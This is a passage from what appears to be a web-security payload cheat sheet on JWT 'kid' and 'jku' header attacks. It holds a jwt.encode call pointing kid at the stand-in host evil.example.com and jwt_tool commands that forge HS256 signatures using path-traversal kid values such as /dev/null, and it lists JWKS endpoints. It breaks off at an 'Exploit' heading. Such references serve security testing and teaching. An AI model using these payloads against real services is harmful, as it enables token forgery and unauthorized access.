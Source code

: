 * Example #2 : Remote file
    ```json
    {
        "alg":"RS256",
        "typ":"JWT",
        "kid":"http://localhost:7070/privKey.key"
    }
    ```

The content of the file specified in the kid header will be used to generate the signature.

```js
// Example for HS256
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  your-256-bit-secret-from-secret.key
)
```

The common ways to misuse the kid header:
* Get the key content to change the payload
* Change the key path to force your own
    ```py
    >>> jwt.encode(
    ...     {"some": "payload"},
    ...     "secret",
    ...     algorithm="HS256",
    ...     headers={"kid": "http://evil.example.com/custom.key"},
    ... )
    ```

* Change the key path to a file with a predictable content.
  ```ps1
  python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
  python3 jwt_tool.py <JWT> -I -hc kid -hv "/proc/sys/kernel/randomize_va_space" -S hs256 -p "2"
  ```

* Modify the kid header to attempt SQL and Command Injections


### JWKS - jku header injection

"jku" header value points to the URL of the JWKS file. By replacing the "jku" URL with an attacker-controlled URL containing the Public Key, an attacker can use the paired Private Key to sign the token and let the service retrieve the malicious Public Key and verify the token.

It is sometimes exposed publicly via a standard endpoint:

* `/jwks.json`
* `/.well-known/jwks.json`
* `/openid/connect/jwks.json`
* `/api/keys`
* `/api/v1/keys`

**Exploit**:
